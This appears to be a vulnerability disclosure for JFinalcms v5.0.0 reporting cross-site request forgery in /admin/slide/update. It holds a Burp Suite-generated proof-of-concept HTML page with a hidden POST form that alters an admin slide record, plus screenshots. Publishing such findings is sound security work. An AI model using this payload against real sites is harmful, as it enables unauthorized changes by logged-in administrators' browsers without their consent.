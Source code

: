 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/slide/update

![image](https://github.com/li-yu320/cms/assets/54130055/5edcaf26-0de5-4f6f-b7aa-8c94015faf1f)

![image](https://github.com/li-yu320/cms/assets/54130055/4514c8fc-d115-43fd-b3f9-285d0cc665f4)

create poc

![image](https://github.com/li-yu320/cms/assets/54130055/8872e4cb-657a-49a6-9a8b-c93df8a5767a)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/slide/update" method="POST">
      <input type="hidden" name="id" value="84" />
      <input type="hidden" name="gid" value="2" />
      <input type="hidden" name="image" value="&#47;static&#47;upload&#47;e2742cf5&#45;ea48&#45;4747&#45;b4b5&#45;d5961e671634&#46;jpg" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs123" />
      <input type="hidden" name="title" value="cs" />
      <input type="hidden" name="subtitle" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![image](https://github.com/li-yu320/cms/assets/54130055/e602ce4f-9070-4eb2-886a-f5cb1566800c)

